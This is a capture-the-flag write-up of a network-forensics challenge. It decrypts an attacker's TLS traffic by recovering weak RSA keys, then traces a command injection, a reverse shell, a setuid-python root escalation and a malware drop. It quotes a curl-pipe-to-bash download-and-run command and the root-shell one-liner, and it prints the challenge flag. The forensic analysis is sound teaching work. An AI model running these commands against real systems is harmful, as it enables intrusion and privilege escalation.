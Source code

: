 # Santhacklaus CTF 2019 - Revmomon

This challenge is a forensics / crypto challenge from Santhacklaus CTF 2019.
You can visit the CTF platform [here](https://ctf.santhacklaus.xyz).

## Context

> Suspicious activity has been detected. Probably nothing to be scared about but take a look anyway.
> If you find anything, a backdoor, a malware or anything of this kind, flag is the sha256 of it.
> MD5 of the file : c93adc996da5dda82312e43e9a91d053
> [revmomon.zip](files/revmomon.zip)

## Capture analysis

The zip archive contains a Wireshark capture with TCP traffic.

If we scroll down the capture we can see some HTTP packets with first, what looks like the installation of several Debian packages, and then a web path bruteforce from 172.17.0.1 to 172.17.0.5.

It then looks like the attacker has found what he was looking for since he got a 200 HTTP response code on /index.php.

![index](images/index.png)

It seems that the index.php is a simple page with an input form for the visitor to test if an IP address is reachable by ping.

![ping](images/ping.png)

However, it seems that this form is vulnerable to command injection since the attacker then proceeded to use the form to upload and execute a script from its own HTTP server by running the command `curl -k https://172.17.0.1/a.sh | bash`.

Unfortunately for us, the rest of the traffic is encrypted by the TLSv1.2 protocol.

![tls](images/tls.png)

## Breaking TLS certificates

After reviewing the capture to see if there are any leeked private key, we don't find anything else interesting.

So the only idea left is to extract the public certificates used to encrypt the traffic and see if we are able to break them.

To extract the certificates, we search for the `Server Hello, Certificate, Server Hello Done` packets in the capture and look for `TLS` > `TLS v1.2 Record Layer: Handshake Protocol: Certificate` > `Handshake Protocol: Certificate` > `Certificates` > `Certificates` in the packet's details. We right click on this line and choose `Export Selected Packet Bytes` and save these certificates as certifX.der.

![extract](images/extract.png)

This way, we've got 8 certifX.der files but if we take a look at their md5sum, we notice that there are actually only 3 distinct certificates.

![extracted](images/extracted.png)

We can get the information contained in these certificates by running `openssl x509 -inform DER -in certifX.der -text`.

The certificates are 2048-bit RSA public keys so it will be hard to factorize the modulus. Nonetherless, I tried my luck on factordb.com and it unsurprinsingly found no known factors...

However, if we take a closer look at our three certificates, we notice that two of them have a suspicious issuer:

![issuers](images/issuers.png)

With those two certificates standing out, we can convert them into public keys with:
```bash
for i in {1,3}; do openssl x509 -inform DER -in certif$i.der -out certif$i.pem; openssl x509 -pubkey -noout -in certif$i.pem -out pubkey$i.pem; done
```
and then try a common factor attack on these public keys with [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool).
```bash
python RsaCtfTool.py --attack comfact_cn --publickey "pubkey*" --private
```

![private](images/private.png)

RsaCtftool returns within seconds the two private keys we need to decrypt our encrypted traffic. We save them as [priv1.key](files/priv1.key) and [priv3.key](files/priv3.key).

We then go back to Wireshark and add our two private keys in the menu `Edit` > `Preferences` > `Protocols` > `TLS` > `RSA keys list` > `Edit` and add the keys according to the server's IP and TLS port (here 172.17.0.5:8443).

If we now go to our TLS packets, we can right click on one packet and follow the TLS stream. The [decrypted packets](files/decrypted_tls.txt) tells us that the attacker has spawned a python reverse shell.

He then uploaded LinEnum.sh on the server, ran it and found in the report the SETUID capability set on `/usr/bin/python2.7`.

![setuid](images/setuid.png)

So he executed `/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'` and got a root shell.

Before exiting the session, he uploaded a suspicious file named **DRUNK_IKEBANA** that we can extract by going to `File` >`Export Objects` > `HTTP` > `Save`.

So now that we have our [malicious file](files/DRUNK_IKEBANA), we can use the sha256sum as our flag to validate the challenge:

```bash
$ echo SANTA{$(sha256sum DRUNK_IKEBANA | cut -d' ' -f1)}
SANTA{daeb4a85965e61870a90d40737c4f97d42ec89c1ece1c9b77e44e6749a88d830}
```
